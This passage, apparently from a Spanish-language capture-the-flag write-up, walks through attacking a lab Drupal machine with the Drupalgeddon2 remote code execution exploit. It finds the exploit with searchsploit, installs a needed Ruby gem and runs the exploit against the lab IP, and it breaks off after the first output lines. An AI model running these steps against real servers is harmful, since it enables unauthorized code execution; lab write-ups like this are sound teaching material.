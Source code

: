 ```bash
❯ searchsploit drupalgeddon2
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                  | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                                              | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                                     | php/webapps/44448.py
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Esta hecho en `ruby` por lo que debemos tenerlo instalado para poder ejecutarlo. Lo que conseguiremos con este exploit es ganar acceso a la maquina victima mediante `RCE`.

Como requisito lo mas probable es que te pida instalar la gema `highline`, lo cual se realiza del siguiente modo.

```bash
❯ gem install highline
Fetching highline-2.1.0.gem
Successfully installed highline-2.1.0
Parsing documentation for highline-2.1.0
Installing ri documentation for highline-2.1.0
Done installing documentation for highline after 2 seconds
1 gem installed
```

Una vez instalada podemos ejecutar el exploit correctamente.

```bash
❯ ruby drupalgeddon.rb
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication
```

Lo unico que le necesitamos proporcionar es el target en este caso la ip de la maquina victima.

```bash
❯ ruby drupalgeddon.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
```
